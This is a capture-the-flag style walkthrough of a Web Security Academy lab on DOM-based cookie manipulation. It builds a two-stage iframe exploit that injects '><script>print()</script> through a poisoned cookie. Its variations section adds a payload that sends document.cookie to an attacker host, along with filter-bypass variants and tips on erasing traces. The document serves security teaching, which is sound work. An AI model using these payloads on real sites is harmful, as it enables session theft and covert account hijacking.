

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Discover that a product page stores the current page URL into a cookie called `lastViewedProduct` using `document.cookie`
- 🔎 Find that the **homepage reads** that cookie value and **writes it unsanitised into the DOM** — a stored XSS sink via cookie
- 🚰 Understand the **two-stage attack**: first poison the cookie with a crafted URL containing an XSS payload, then trigger the homepage to render it
- 💡 Learn the `'><script>print()</script>` payload breaks out of the HTML attribute context that the cookie value is written into
- 🧠 Build an exploit iframe that **automatically performs both stages**: loads the product URL to poison the cookie, then redirects to the homepage to fire the XSS — all in one page load
- 🎉 Victim visits the exploit page → iframe poisons cookie → auto-redirects to homepage → homepage renders poisoned cookie → `print()` executes!

---

## 🧠 **Concept Recap**

> **DOM-based cookie manipulation** occurs when client-side JavaScript writes attacker-controllable data (like `location.href`) into `document.cookie`, and another part of the application then reads that cookie value and writes it unsanitised into a dangerous DOM sink. This lab combines two DOM vulnerabilities into a **two-stage stored XSS via cookie poisoning**: Stage 1 sets a cookie whose value contains an XSS payload, and Stage 2 triggers the XSS when a different page reads and renders that cookie. Neither stage touches the server — the entire attack lives in JavaScript.

### 📊 **The Full Vulnerability — Two Pages, Two Flaws, One Chain**

**Flaw 1 — Product page: writes `location.href` into a cookie without sanitisation:**

```r
// On the PRODUCT page (e.g. /product?productId=1):
document.cookie = "lastViewedProduct=" + window.location.href
                + "; SameSite=None; Secure";
```

What this does:

```js
User visits: /product?productId=1
  → location.href = "https://LAB-ID.web-security-academy.net/product?productId=1"
  → document.cookie sets:
       lastViewedProduct = https://LAB-ID.web-security-academy.net/product?productId=1

User visits: /product?productId=1&'><script>print()</script>
  → location.href = "https://LAB-ID.../product?productId=1&'><script>print()</script>"
  → document.cookie sets:
       lastViewedProduct = https://LAB-ID.../product?productId=1&'><script>print()</script>
       ← Payload is now STORED IN THE COOKIE! 💀
```

**Flaw 2 — Homepage: reads the cookie and writes it into the DOM unsanitised:**

```r
// On the HOMEPAGE (/):
// Reads lastViewedProduct cookie and writes it into an <a> href attribute
document.write('<a href="' + cookieValue + '">Last viewed product</a>');
```

What this does with a poisoned cookie:

```js
cookieValue = "https://LAB-ID.../product?productId=1&'><script>print()</script>"

document.write outputs:
  <a href="https://LAB-ID.../product?productId=1&'><script>print()</script>">
             ↑                                                              ↑
             href opens                                         what closes it?

Payload breakdown:  &'><script>print()</script>
  &      → harmless query parameter separator (ignored)
  '      → closes the SINGLE QUOTE in href='...' if single-quoted
           OR just a literal char in double-quoted href
  >      → CLOSES the <a> tag entirely!
  <script>print()</script>
         → Now outside any tag — interpreted as a new HTML element!
         → Browser parses <script>print()</script> as a real script!
         → print() executes! 💥

The full rendered HTML:
  <a href="https://LAB-ID.../product?productId=1&'><script>print()</script>">
                                                  ↑
                                          > closes the <a> tag here
  
  Results in browser seeing:
  <a href="https://LAB-ID.../product?productId=1&'">   ← href ends here
  <script>print()</script>                              ← runs as script!
  ">                                                    ← leftover chars
```

**The complete two-stage taint flow:**

```js
╔══════════════════════════════════════════════════════════════╗
║  STAGE 1 — Cookie Poisoning (Product Page)                   ║
╠══════════════════════════════════════════════════════════════╣
║                                                              ║
║  SOURCE:   location.href                                     ║
║              │                                               ║
║              │  Contains XSS payload in query string         ║
║              │  "...?productId=1&'><script>print()</script>" ║
║              ▼                                               ║
║  SINK:     document.cookie = "lastViewedProduct=" + url      ║
║              │                                               ║
║              │  Payload stored in cookie! 🍪                 ║
║              ▼                                               ║
║  RESULT:   Browser holds poisoned lastViewedProduct cookie   ║
╚══════════════════════════════════════════════════════════════╝
                         │
                         │ (victim navigates to homepage)
                         ▼
╔══════════════════════════════════════════════════════════════╗
║  STAGE 2 — XSS Trigger (Homepage)                            ║
╠══════════════════════════════════════════════════════════════╣
║                                                              ║
║  SOURCE:   document.cookie (reads lastViewedProduct)         ║
║              │                                               ║
║              │ cookieValue = "...&'><script>print()</script>"║
║              ▼                                               ║
║  SINK:     document.write('<a href="' + cookieValue + '">')  ║
║              │                                               ║
║              │  '> breaks out of href → closes <a> tag       ║
║              │  <script>print()</script> injected into DOM   ║
║              ▼                                               ║
║  RESULT:   print() executes! 💥                              ║
╚══════════════════════════════════════════════════════════════╝
```

---

### **Why This Is "Stored" DOM XSS (Despite No Server Storage)**

```
Classic XSS categories:
  Reflected XSS  → payload in request → in response → fires once
  Stored XSS     → payload stored server-side → fires for every visitor
  DOM XSS        → payload never sent to server → fires client-side only

This lab = a HYBRID:
  → "Stored" in the sense that the payload persists in the cookie
  → "DOM-based" in the sense that no server ever sees or stores it
  → Once the cookie is poisoned:
      ✅ Payload survives page refreshes
      ✅ Payload survives closing and reopening the tab (persistent cookie)
      ✅ Every homepage load re-executes the payload
      ✅ If the attacker can poison the VICTIM'S cookie remotely →
         victim's every homepage visit fires the XSS!

This makes cookie-based DOM XSS more dangerous than simple reflected:
  → It's not a one-shot attack
  → The victim's browser stays compromised until cookie is cleared
  → In real apps: cookie theft, session riding, repeated exfiltration
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access the Lab and Explore the Shop**

1. 🌐 Click **"Access the lab"** — the homepage is a product shop
2. 🖱️ Click any **product** to visit a product detail page
3. 🔙 Click **"Back to Blog"** or navigate back to the **homepage**
4. 👁️ Notice: a **"Last viewed product"** link has appeared on the homepage

**What this tells you immediately:**

```
The homepage remembers the last product you visited.
Something stored that product URL between the two pages.
→ That "something" is almost certainly a cookie!

How to confirm → check DevTools:
  F12 → Application tab → Cookies → select the lab domain
  Look for: lastViewedProduct
  Value should be: the full URL of the product page you visited
  e.g. https://LAB-ID.web-security-academy.net/product?productId=2
```

---

### 🔎 **Step 2 — Find the Two Vulnerable JavaScript Snippets**

> You need to find both pieces of code: the one that WRITES the cookie, and the one that READS it.

**Finding the cookie-WRITE code (product page):**

1. 🖱️ Go to any product page → press **F12** → **Sources** or **Inspector**
2. 🔍 **Ctrl+Shift+F** → search: `document.cookie`

**What you find on the product page:**

```javascript
document.cookie = "lastViewedProduct=" + window.location.href
                + "; SameSite=None; Secure";
```

Analysis:

```js
document.cookie = ...
  → The SINK for Stage 1 of the attack
  → Writing to document.cookie stores data in the browser

"lastViewedProduct=" + window.location.href
  → window.location.href = the FULL current URL (source)
  → Concatenated directly — NO sanitisation, NO encoding
  → Whatever is in the URL goes DIRECTLY into the cookie value!

"; SameSite=None; Secure"
  → Cookie attributes added at the end
  → SameSite=None → cookie sent cross-site (needed for exploit server!)
  → Secure → only sent over HTTPS
  → These attributes don't protect against the vulnerability
```

**Finding the cookie-READ code (homepage):**

1. 🖱️ Navigate to the **homepage** → press **F12** → **Sources**
2. 🔍 Search: `lastViewedProduct` or `document.cookie`

**What you find on the homepage:**

```r
// The homepage reads the cookie and writes it into a link
var cookieValue = document.cookie
    .split('; ')
    .find(row => row.startsWith('lastViewedProduct='))
    ?.split('=')[1];

if (cookieValue) {
    document.write('<a href="' + cookieValue + '">Last viewed product</a>');
}
```

Or a simplified version:

```javascript
document.write('<a href="' + cookieValue + '">Last viewed product</a>');
```

Analysis:

```
document.write(...)
  → The SINK for Stage 2 of the attack — most dangerous DOM sink!
  → Writes raw HTML directly into the page
  → Browsers parse whatever is written as live HTML immediately

'<a href="' + cookieValue + '">'
  → cookieValue is inserted INSIDE an HTML attribute (href="...")
  → If cookieValue contains '> → it breaks out of the attribute AND tag!
  → XSS via attribute breakout!

No sanitisation anywhere:
  → No encodeURIComponent() on write
  → No escaping of < > ' " characters
  → Raw cookie value → raw HTML output → script execution
```

---

### 🧪 **Step 3 — Understand the XSS Payload**

> The payload `'><script>print()</script>` is crafted specifically to break out of the `href="..."` double-quoted attribute context. Let me examine exactly why each character is needed.

**The attribute context the payload lands in:**

```r
Template:    <a href=" COOKIE_VALUE ">Last viewed product</a>
                      ↑           ↑
                      href value goes here (double-quoted)
```

**Normal (no attack):**

```js
Cookie: https://LAB-ID.web-security-academy.net/product?productId=2

Output:
  <a href="https://LAB-ID.web-security-academy.net/product?productId=2">
  Last viewed product</a>

Rendered: A normal link ✅ No XSS.
```

**With payload:**

```js
Cookie: https://LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>

Output (raw document.write output):
  <a href="https://LAB-ID.../product?productId=1&'><script>print()</script>">

How browser HTML parser reads this:
  <a href="https://LAB-ID.../product?productId=1&'">
                                                  ↑
                                    > CLOSES the <a href="..."> tag here!
                                    (the " before > is not a problem —
                                     the > ends the tag regardless)
  <script>print()</script>    ← now a FREE-STANDING script tag!
                                 Not inside any attribute!
                                 Browser executes it! 💥
  ">                          ← orphaned characters (harmless)
  Last viewed product</a>     ← rest of original template
```

**Payload character-by-character:**

```js
Payload:  &'><script>print()</script>

&        → query parameter separator — makes URL look valid
           Ensures this is parsed as part of the query string
           Prevents some URL-based filters from rejecting it
           (Could be omitted, but makes URL look more legitimate)

'        → closes any SINGLE-QUOTED href attribute context
           In double-quoted context: just a literal apostrophe (harmless)
           In single-quoted context: would close href='' early
           Covers BOTH quoting styles → payload works regardless!

>        → THIS is the critical character!
           In HTML: > ends the current open tag
           So href="...&'>" → the > closes the <a> tag!
           Everything after > is now OUTSIDE the <a> element

<script> → opens a new script element
           Since we're now outside the <a> tag, this is valid HTML!
           Browser parses it as a real script tag

print()  → JavaScript to execute — calls browser print dialog

</script>→ properly closes the script tag
           Required for browser to execute inline script contents
           Without </script>, browser waits for more content

Result: print() fires in the page context! 💥
```

**Why `'` is included even in double-quoted context:**

```js
If the homepage code uses double quotes: href="VALUE"
  → ' is harmless, > closes the tag → payload works ✅

If the homepage code uses single quotes: href='VALUE'
  → ' closes the href attribute first
  → > then closes the <a> tag → payload still works ✅

The ' makes the payload universal — works with either quoting style.
Test both scenarios:
  href="https://...&'><script>print()</script>"
  href='https://...&'><script>print()</script>'

Both result in the script executing. The payload is carefully crafted
to be robust regardless of which quote character surrounds the attribute.
```

---

### 💉 **Step 4 — Understand the Two-Stage Exploit Challenge**

> The tricky part of this lab: you need to **poison the cookie AND trigger the homepage** to render it — but these happen on DIFFERENT pages. You can't do both in a single URL visit. This requires the exploit server to orchestrate both steps automatically.

**The challenge visualised:**

```js
Step A needed: Visit product page with XSS payload in URL
               → This sets the lastViewedProduct cookie to contain the payload

Step B needed: Visit the HOMEPAGE
               → This reads the poisoned cookie and renders the XSS

Problem: These are TWO SEPARATE page loads!
  → You can't do both with a single URL
  → You can't just send victim to the product URL → they'd never go to homepage
  → You can't just send victim to homepage → cookie isn't poisoned yet

Solution: Use an iframe with a REDIRECT trick!
  → Load the product URL first (in iframe) → cookie gets poisoned
  → Then redirect the iframe to the homepage → XSS fires!
  → Both steps happen automatically on the attacker's page
  → Victim sees nothing unusual — it looks like a normal page load
```

---

### 🏗️ **Step 5 — Build the Exploit iframe**

**The full exploit iframe:**

```js
<iframe
  src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>"
  onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

**Complete breakdown of every part:**

```js
<iframe
  src="https://LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>"
  │    ↑
  │    FIRST load: the product page URL with XSS payload appended
  │    → Browser loads this URL inside the iframe
  │    → Product page JavaScript runs:
  │        document.cookie = "lastViewedProduct=" + location.href
  │    → Cookie value is now set to the FULL URL including the payload!
  │    → lastViewedProduct = "https://LAB-ID.../product?productId=1&'><script>print()</script>"
  │    → 🍪 Cookie poisoned!
  │
  onload="if(!window.x) this.src='https://LAB-ID.web-security-academy.net'; window.x=1;"
          ↑                      ↑                                           ↑
          │                      │                                           │
          │                      REDIRECT: change iframe src to homepage    Mark as done
          │                      → Homepage loads in the iframe              (prevent loop)
          │                      → Homepage reads lastViewedProduct cookie
          │                      → Cookie value contains our XSS payload
          │                      → document.write('<a href="PAYLOAD">')
          │                      → payload breaks out of href → script runs
          │                      → print() executes! 💥
          │
          if(!window.x) = "only do this on FIRST onload"
          → Prevents infinite loop!
          → Without this guard:
              1. iframe loads product URL → onload fires → redirect to homepage
              2. iframe loads homepage → onload fires AGAIN → redirect to homepage
              3. iframe loads homepage → onload fires AGAIN → infinite loop! 🔄
          → With window.x=1 flag:
              4. iframe loads product URL → !window.x = true → redirect + set x=1
              5. iframe loads homepage → !window.x = false → skip redirect → done! ✅
```

**The `window.x` infinite-loop prevention explained:**

```js
Timeline WITHOUT the guard (broken):

  t=0: iframe.src = "product?productId=1&PAYLOAD"
  t=1: iframe loads product page → cookie poisoned 🍪
  t=2: onload fires → this.src = homepage
  t=3: iframe loads homepage → XSS fires 💥
  t=4: onload fires AGAIN → this.src = homepage (again!)
  t=5: iframe loads homepage → XSS fires again 💥
  t=6: onload fires AGAIN → ...
  → Infinite loop of page loads + XSS fires! ❌ Browser hangs!

Timeline WITH the guard (correct):

  t=0: iframe.src = "product?productId=1&PAYLOAD"
       window.x = undefined
  t=1: iframe loads product page → cookie poisoned 🍪
  t=2: onload fires:
         if(!window.x) → !undefined = true → ENTERS if block
         this.src = homepage  → redirect set
         window.x = 1        → flag set
  t=3: iframe loads homepage → XSS fires 💥
  t=4: onload fires:
         if(!window.x) → !1 = false → SKIPS if block
         window.x = 1  → already 1, stays 1
  t=5: Nothing more happens → done! ✅

window.x persists for the lifetime of the parent page (exploit server page).
It's a property of the exploit page's window object — NOT the iframe's.
this.src changes the iframe's URL, but window.x stays set. 
```

---

### 🔧 **Step 6 — Go to the Exploit Server**

1. 🖱️ Click **"Go to exploit server"** in the lab
2. 🖱️ Click on the **"Body"** section

---

### ✏️ **Step 7 — Write the Exploit**

1. 🖱️ Clear the Body section
2. ✏️ Paste this — replacing `YOUR-LAB-ID` with your lab ID:

```js

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

**Finding your lab ID:**

```js
Your browser address bar:
  https://0a4b001703abcd128090d0e300fd0012.web-security-academy.net/

Lab ID: 0a4b001703abcd128090d0e300fd0012

Replace YOUR-LAB-ID with this in BOTH places in the iframe:
  1. In the src attribute (product URL)
  2. In the onload redirect (homepage URL)
```

**Full exploit page the victim sees:**

```js
<!DOCTYPE html>
<html>
<head></head>
<body>

<iframe src="https://0a4b001703abcd128090d0e300fd0012.web-security-academy.net/product?productId=1&'><script>print()</script>"
        onload="if(!window.x)this.src='https://0a4b001703abcd128090d0e300fd0012.web-security-academy.net';window.x=1;">

</body>
</html>
```

---

### 👁️ **Step 8 — Store and Test the Exploit**

1. 🖱️ Click **"Store"** to save the exploit
2. 🖱️ Click **"View exploit"** to test in your own browser

**What you should observe:**

```js
0ms:   Exploit page loads from exploit server
       iframe element created
       iframe src = product URL with payload

~500ms: iframe loads product?productId=1&PAYLOAD
        Product page JS runs:
          document.cookie = "lastViewedProduct=https://LAB-ID.../product?productId=1&'><script>print()</script>; ..."
        Cookie stored in your browser! 🍪

~600ms: onload fires:
          if(!window.x) → true
          this.src = 'https://LAB-ID.web-security-academy.net'
          window.x = 1

~1000ms: iframe now loads the HOMEPAGE
          Homepage JS reads lastViewedProduct cookie
          Finds: "https://LAB-ID.../product?productId=1&'><script>print()</script>"
          Runs: document.write('<a href="' + cookieValue + '">')
          Rendered HTML: <a href="...&'"><script>print()</script>">
          Browser parses: <script>print()</script> as real script!

~1001ms: 🖨️ YOUR BROWSER'S PRINT DIALOG APPEARS! ✅
```

**Confirming the cookie was poisoned (optional verification step):**

```
After clicking "View exploit":
  F12 → Application tab → Storage → Cookies → LAB-ID domain
  Find: lastViewedProduct
  Value should be: https://LAB-ID.../product?productId=1&'><script>print()</script>
  ← If you see this, Stage 1 (cookie poisoning) worked!

Then verify Stage 2:
  Navigate to https://LAB-ID.web-security-academy.net/ (homepage) manually
  Print dialog should fire again! (cookie is still poisoned)
  ← Confirms Stage 2 (homepage renders the payload) works!
```

**Troubleshooting if print does NOT fire:**

```r
Problem 1: Wrong lab ID (most common)
  → Check BOTH occurrences of the lab ID in the iframe
  → They must be identical and correct

Problem 2: Cookie not being set
  → Check DevTools → Application → Cookies
  → If lastViewedProduct not present → product page JS didn't run
  → Make sure the iframe src actually loads a valid product page

Problem 3: Cookie set but XSS doesn't fire
  → Check the cookie VALUE — does it contain the payload?
  → Navigate to homepage manually → does print fire?
  → If not: the homepage reading code may work differently
  → Check homepage source for how it reads the cookie

Problem 4: productId=1 doesn't exist
  → Try productId=2 or productId=3
  → Any valid product page works — just needs to trigger the cookie JS

Problem 5: SameSite cookie attribute blocking
  → The cookie has SameSite=None → should be sent cross-site
  → If Secure is also required: exploit server must be HTTPS ✅ (it is)

Problem 6: onload fires but redirect doesn't happen
  → Check if window.x was already set from a previous test
  → Refresh the exploit page → window.x resets to undefined → try again

Problem 7: Print dialog blocked by browser popup blocker
  → Allow popups for the exploit server domain
  → Or check if print() silently fails — look for any console errors
```

---

### 🚀 **Step 9 — Deliver to Victim**

1. ✅ Print dialog confirmed working in your browser
2. 🖱️ Click **"Deliver exploit to victim"**

**What the victim bot experiences:**

```js
Victim's browser:
  1. Receives link to exploit server page
  2. Opens the exploit page
  3. iframe loads: product?productId=1&'><script>print()</script>
  4. Product page runs document.cookie = "lastViewedProduct=...PAYLOAD..."
  5. Victim's cookie is now POISONED 🍪
  6. onload fires → iframe redirects to homepage
  7. Homepage reads the poisoned lastViewedProduct cookie
  8. document.write('<a href="PAYLOAD">') executes
  9. '> breaks out of href → <script>print()</script> injected
  10. print() fires in lab domain context!
  11. Lab detects print() on its domain → SOLVED! 🎉
```

---

### ✅ **Step 10 — Lab Solved!**

```
┌──────────────────────────────────────────────────────────────┐
│  ✅ Congratulations!                                         │
│                                                              │
│  You exploited DOM-based cookie manipulation leading to XSS. │
│  Stage 1: poisoned the lastViewedProduct cookie by visiting  │
│  a crafted product URL with an XSS payload appended.         │
│  Stage 2: triggered the homepage to render the poisoned      │
│  cookie value unsanitised, executing print().                │
│                                                              │
│  Lab: DOM-based cookie manipulation                          │
│  Status: SOLVED ✓                                            │
└──────────────────────────────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Visit product page → DevTools confirms lastViewedProduct cookie
         set to the current product URL
         ↓
Step 2: Find Stage 1 source code on product page:
         document.cookie = "lastViewedProduct=" + window.location.href + "..."
         SOURCE: window.location.href → SINK: document.cookie
         No sanitisation = URL goes RAW into cookie ❌
         ↓
Step 3: Find Stage 2 source code on homepage:
         document.write('<a href="' + cookieValue + '">Last viewed product</a>');
         SOURCE: document.cookie → SINK: document.write
         No sanitisation = cookie value goes RAW into HTML ❌
         ↓
Step 4: Design the XSS payload for the href="..." context:
         '><script>print()</script>
           ↑ closes href (single-quoted) or adds literal
           ↑ > closes the <a> tag
               <script>print()</script> → free-standing script → runs!
         ↓
Step 5: Craft the cookie-poisoning URL:
         /product?productId=1&'><script>print()</script>
         → When visited: sets lastViewedProduct = this full URL (with payload)
         ↓
Step 6: Plan the two-stage delivery via iframe:
         Stage A: load product URL → cookie poisoned
         Stage B: redirect to homepage → XSS fires
         Bridge: onload handler with window.x loop guard
         ↓
Step 7: Build exploit iframe:
         <iframe
           src="LAB-ID.../product?productId=1&'><script>print()</script>"
           onload="if(!window.x)this.src='LAB-ID...';window.x=1;">
         ↓
Step 8: Go to exploit server → paste into Body → Store → View exploit
         Confirm: print dialog fires ✅
         ↓
Step 9: Deliver to victim
         ↓
Step 10: Victim:
          → iframe loads product URL → cookie poisoned with payload
          → onload → iframe redirects to homepage
          → homepage reads cookie → document.write with payload
          → '> breaks out of href → <script>print()</script> runs
          → Lab solved! 🎉
```

---

## ⚙️ **Deep Understanding — Every Component Explained**

---

### **`document.cookie` — The Write Sink and Read Source**

```js
document.cookie is BOTH a sink (Stage 1) AND a source (Stage 2):

As a SINK (writing cookies):
  document.cookie = "name=value; options"
  → Sets a cookie in the browser
  → DOES NOT replace ALL cookies — only sets the named cookie
  → (Confusingly: reading document.cookie returns ALL cookies as one string,
     but writing only affects the named cookie)

  Dangerous because:
  → Whatever value you write is stored persistently
  → That value will be sent to the server on future requests
  → AND can be read by JavaScript on future page loads
  → If value = attacker-controlled data → persists until cookie expires!

As a SOURCE (reading cookies):
  var allCookies = document.cookie;
  → Returns ALL cookies as a single string: "name1=val1; name2=val2; ..."
  → To extract one: split and find by name
  → The VALUE of any cookie = potentially attacker-controlled
  → If that value goes to innerHTML / document.write / href → XSS!

The poisoning model:
  Attacker influences what gets WRITTEN to cookie (via URL)
       ↓
  Cookie stores the malicious value persistently
       ↓
  Another page READS that cookie
       ↓
  Reads the value into a dangerous sink (document.write)
       ↓
  XSS fires! 💥

This is "second-order" or "stored" DOM XSS:
  → Payload is stored (in cookie) before it's executed
  → Execution happens on a DIFFERENT page load than the poisoning
  → Makes it harder to detect with simple reflected XSS scanners
```

---

### **`document.write()` — The Most Dangerous DOM Sink**

```js
document.write() is the most powerful and dangerous DOM sink:

Why it's uniquely dangerous:
  → Writes raw HTML directly into the DOM stream
  → Browser immediately parses what's written as live HTML
  → Can create ANY HTML element, including <script>
  → Unlike innerHTML: document.write can execute <script> tags directly!

Comparison with other sinks:

  innerHTML = '<script>alert(1)</script>'
  → Script NOT executed! ❌ (innerHTML blocks script tags)
  → But:  DOES work via innerHTML

  document.write('<script>alert(1)</script>')
  → Script IS executed! ✅ (document.write parses and runs everything)
  → Direct <script> tag works here!
  → Most dangerous: any HTML injection is full XSS

  element.setAttribute('href', 'javascript:alert(1)')
  → Only executes on click (not auto-fire)

  location.href = 'javascript:alert(1)'
  → Executes immediately (Lab 2 and 3 pattern)

In this lab:
  document.write('<a href="' + cookieValue + '">')
  → If cookieValue contains "> → breaks out of href
  → Subsequent <script> tag IS executed by document.write
  → No event handler needed — script runs on page load!
```

---

### **The `'><script>print()</script>` Payload — HTML Injection Mechanics**

```js
Understanding HOW the browser HTML parser processes the injected content:

Input to document.write:
  '<a href="' + "https://site.com/product?productId=1&'><script>print()</script>" + '">'

Fully assembled string:
  '<a href="https://site.com/product?productId=1&'><script>print()</script>">'

What the browser HTML tokeniser does:

  Token 1: Start tag  <a
    → Reads attributes...
    → href="https://site.com/product?productId=1&'"
       → Attribute value starts after href="
       → Attribute value ends at the NEXT double quote: &'"
       → Value = "https://site.com/product?productId=1&'"
    → Then sees >  → ends the <a> start tag
    → <a> element created with href pointing to the (broken) URL
  
  Token 2: Start tag  <script>
    → Wait — we're no longer inside the <a> tag!
    → The > character already CLOSED the <a> tag
    → <script> is a NEW element at the document level
    → Browser creates a script element
  
  Token 3: Text node  print()
    → Content of the script element

  Token 4: End tag  </script>
    → Closes the script element
    → Browser executes the script content: print()! 💥

  Token 5: Text  ">
    → The leftover closing " and > from the original template
    → Orphaned text node — harmless

Final DOM tree:
  <a href="https://site.com/product?productId=1&'">
  <script>print()</script>
  ">(harmless text)
  Last viewed product
  </a>    ← closing tag matches the <a> even though tag is weird

Result: print() EXECUTES! The script tag is real and runs!
```

---

### **Why the Attack Needs TWO Page Loads**

```js
This is the core architectural insight of this lab:

The WRITE happens on the PRODUCT page:
  /product?productId=1&PAYLOAD
  → document.cookie = "lastViewedProduct=" + location.href
  → Cookie now contains the payload
  → Page renders normally (the XSS payload is just in the URL, not rendered)

The READ happens on the HOMEPAGE:
  /
  → Reads lastViewedProduct cookie
  → Renders it via document.write into the <a> href
  → XSS fires HERE, not on the product page!

Why can't we just send the victim to the product URL?
  → They'd need to THEN visit the homepage for XSS to fire
  → We can't control when they visit the homepage after that
  → They might clear their cookies first
  → They might never visit the homepage

Why can't we just send the victim to the homepage?
  → The cookie isn't poisoned yet!
  → Without the payload in the cookie, no XSS fires

The iframe onload solution CHAINS both in one visit:
  Victim visits exploit page
       → iframe loads product URL → cookie poisoned
       → onload → iframe loads homepage → XSS fires
  Victim never had to do anything else → attack is complete!

The window.x guard prevents the loop that would otherwise occur
when onload fires again after the homepage loads.
```

---

### **Cookie Persistence — Why This Is "Stored" XSS**

```js
The lastViewedProduct cookie PERSISTS in the victim's browser:

After Stage 1 (cookie poisoning):
  Browser cookie jar:
    lastViewedProduct = "https://LAB-ID.../product?productId=1&'><script>print()</script>"
  
  This cookie remains until:
    → Its expiry time passes
    → User manually clears cookies
    → Server sends Set-Cookie with empty value to delete it
    → Victim visits a REAL product page → cookie overwritten with clean URL!

What this means:
  → If attacker poisons cookie and victim doesn't visit any product page afterwards
  → Every homepage visit will fire the XSS!
  → The XSS "lives" in the cookie — not on the server, not in the URL
  → Very stealthy — no suspicious URLs appear when victim is on homepage

Real-world implications:
  → Persistent cookie → persistent XSS on every homepage visit
  → Attacker can exfiltrate session tokens on every homepage load
  → Victim has no indication anything is wrong
  → Server sees completely normal homepage requests (200 OK)
  → The poisoned cookie value is sent in every request but server ignores it

How to "clean up" as an attacker (to avoid detection):
  → After stealing cookies, send victim to a real product page
  → This overwrites lastViewedProduct with a clean URL
  → Victim's cookie is now "repaired" → no more XSS → no sign of attack
```

---

### **The Cross-Origin Cookie Mechanics**

```js
Why does the exploit work from a DIFFERENT domain (exploit server)?

The attack chain:
  Attacker page: exploit-SERVER.exploit-server.net
  Target page:   LAB-ID.web-security-academy.net

The iframe makes a REAL HTTP request to LAB-ID domain:
  → iframe src = "https://LAB-ID.../product?productId=1&PAYLOAD"
  → Browser fetches this URL → server responds with the product page
  → Product page's JavaScript runs in LAB-ID's origin context
  → JavaScript writes to document.cookie WITH LAB-ID's domain
  → Cookie is stored for LAB-ID domain ✅

This is NOT a cross-origin restriction issue because:
  → The JavaScript runs in LAB-ID's origin (inside the iframe)
  → It writes cookies for LAB-ID (same origin)
  → The exploit server only HOSTS the iframe — it doesn't read the cookie
  → Cross-origin cookie rules prevent READING other domains' cookies
  → But: loading a page from another domain in an iframe is ALLOWED
  → The page inside the iframe runs in its own origin context

The SameSite=None cookie attribute on lastViewedProduct:
  → Normally: SameSite=Lax/Strict prevents cookies being sent in cross-site requests
  → But here: we're not trying to SEND the cookie cross-site to a server
  → We're making the LAB-ID page load inside an iframe → its own JS runs
  → SameSite=None is actually needed for a different scenario here:
    → If the site wanted to read this cookie from an embedded iframe
    → In this attack, SameSite=None helps ensure the cookie is available
      when the iframe navigates to the homepage

Note: The iframe navigates to the homepage ON THE SAME SITE as the product URL
  → Both product page and homepage are on LAB-ID.web-security-academy.net
  → So when homepage loads in the iframe, it CAN read the lastViewedProduct cookie
```

---

## 🚀 **Attack Variations**

---

### **Variation 1: Cookie Theft Instead of print()**

```js
<!-- Steal the session cookie when homepage renders the poisoned lastViewedProduct -->

<!-- Payload in the URL (replaces the print() version): -->
<!-- &'><script>document.location='https://ATTACKER.com/?c='+document.cookie</script> -->

<iframe
  src="https://LAB-ID.web-security-academy.net/product?productId=1&'><script>document.location='https://ATTACKER.net/?c='+document.cookie</script>"
  onload="if(!window.x)this.src='https://LAB-ID.web-security-academy.net';window.x=1;">

<!--
When homepage renders this cookie:
  document.location = 'https://ATTACKER.net/?c=' + document.cookie
  → Sends ALL cookies (including session cookie!) to attacker!
  → URL: https://ATTACKER.net/?c=session=abc123; lastViewedProduct=...
  → Attacker logs the request → extracts session cookie → hijacks account!
-->
```

---

### **Variation 2: Using img onerror Instead of script tag**

```js
<!-- Alternative payload that avoids <script> (for CSP bypasses): -->
<!-- &'> -->

<iframe
  src="https://LAB-ID.web-security-academy.net/product?productId=1&'>"
  onload="if(!window.x)this.src='https://LAB-ID.web-security-academy.net';window.x=1;">

<!--
Why this is useful:
  → Some CSPs block inline <script> but allow img with onerror
  → img.onerror fires when src fails to load (src=x always fails)
  → print() fires the same way
  → Useful when strict CSP is present
-->
```

---

### **Variation 3: SVG-Based Payload**

```js
<!-- If <script> is blocked, SVG can execute JS: -->
<!-- &'><svg onload=print()> -->

Payload in URL:
  /product?productId=1&'><svg onload=print()>

Why SVG onload works:
  → SVG elements support event handlers just like HTML elements
  → onload fires when the SVG element is rendered
  → Bypasses some content filters that block <script> but not <svg>
  → document.write renders SVG as a real element → onload fires!
```

---

### **Variation 4: When Closing Context Requires Only `>`**

```r
// If homepage template uses double quotes: href="VALUE"
// Our standard payload already works: &'><script>...

// If homepage template uses NO quotes (rare but possible):
// href=VALUE → terminated by whitespace or >
// Simpler payload works:   &><script>print()</script>
// The & separates it from the query param, > ends the tag

